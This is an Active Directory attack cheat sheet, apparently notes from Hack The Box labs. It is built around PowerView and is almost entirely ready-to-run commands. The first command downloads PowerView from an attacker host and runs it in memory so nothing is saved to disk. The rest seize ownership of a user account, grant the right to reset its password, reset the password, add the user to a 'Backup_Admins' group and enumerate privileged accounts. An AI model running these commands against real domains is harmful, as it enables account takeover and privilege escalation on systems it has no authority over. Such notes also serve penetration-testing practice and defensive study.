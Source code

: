 # PowerView.ps1

## Fileless (Running PS1 without saving to disk)
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/PowerView.ps1')
```

## Take Ownership over User
- Prerequisite is to have PowerView loaded

```
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```

## Reset Password
- Prerequisite is to have PowerView loaded
- Take ownership of user

```
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
Set-DomainUserPassword Herman -AccountPassword $pass -Verbose
```

## Build New Credential
```
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\Herman', $pass)
```

## Add user to group
## Reset Password
- Prerequisite is to have PowerView loaded
- Take ownership of user
- Build the $cred
```
Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred
```

## Check AD Groups with PowerView
```
Get-DomainGroup -MemberIdentity Herman | select SamAccountName
```

## All Steps in Order
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/PowerView.ps1')
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
Set-DomainUserPassword Herman -AccountPassword $pass -Verbose
$cred = New-Object System.Management.Automation.PSCredential('HTB\Herman', $pass)
Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred
Get-DomainGroup -MemberIdentity Herman | select SamAccountName
```

## Get UserAccountControl for Domain Users
```
Import-Module .\PowerView.ps1 OR . .\PowerView.ps1
Get-DomainUser * -AdminCount | select samaccountname,useraccountcontrol
```

## DSQuery (find passwords that dont expire)
```
dsquery user "OU=Employees,DC=inlanefreight,DC=local" -name * -scope subtree -limit 0 | dsget user -samid -pwdneverexpires | findstr /V no
```
